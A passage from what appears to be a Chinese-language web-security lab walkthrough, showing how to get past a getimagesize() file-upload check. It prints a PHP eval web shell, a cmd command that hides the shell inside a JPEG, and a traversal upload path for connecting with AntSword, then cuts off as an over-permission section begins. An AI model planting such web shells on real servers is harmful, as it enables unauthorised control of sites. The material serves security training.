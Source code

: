 ![4-6.png](4-6.png)

之后还是用蚁剑连接即可。

#### getimagesize()

这一关的校验放在了对图片的 hex 编码的首部, 也就是文件头, 对应的绕过也要做出改变:

-   首先可以直接在图片末尾加上一句话木马:

```php
<?php  @eval($_POST['shell']); ?>
```

-   也可以使用 cmd 命令来手动整合:

```cmd
copy copy /b cover.jpg + shell.php covered_shell.jpg
```

再结合之前的文件上传漏洞, 将图片放到 `filename=../../unsafeupload/uploads/covered_shell.jpg` 下。然后用蚁剑即可连接。

### Over Permission 

越权操作, 这里指的是 CMS 层面的登录用户而不是 Linux 账户。最典型的就是普通用户可以通过某些不安全操作进行
